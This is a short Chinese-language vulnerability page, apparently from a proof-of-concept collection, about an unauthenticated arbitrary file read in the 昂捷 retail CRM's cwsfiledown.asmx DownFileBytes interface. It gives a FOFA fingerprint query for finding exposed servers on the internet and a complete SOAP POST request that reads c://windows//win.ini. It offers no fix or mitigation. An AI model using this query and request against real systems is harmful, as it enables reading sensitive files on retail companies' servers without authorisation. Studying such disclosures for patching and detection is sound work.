 # 昂捷CRM系统cwsfiledown.asmx任意文件读取漏洞

昂捷CRM（Customer Relationship Management）是深圳市昂捷信息技术股份有限公司提供的一款专注于零售行业客户关系管理的系统。旨在帮助零售企业更好地管理客户、提升客户满意度和忠诚度，从而推动业务增长。该系统集成了客户信息管理、会员营销、客户服务等多个功能模块，为零售企业提供全方位的客户关系管理解决方案。昂捷CRM cwsfiledown.asmx 接口DownFileBytes实例处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件

## fofa

```javascript
body="/ClientBin/slEnjoy.App.xap"
```

## poc

```xml
POST /EnjoyRMIS_WS/WS/FileDown/cwsfiledown.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/DownFileBytes"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DownFileBytes xmlns="http://tempuri.org/">
      <sFileName>c://windows//win.ini</sFileName>
      <iPosition>1</iPosition>
      <iReadBytesLen>100</iReadBytesLen>
      <bReadBytes>ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg</bReadBytes>
    </DownFileBytes>
  </soap:Body>
</soap:Envelope>
```

![image-20241128094832675](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280948742.png)
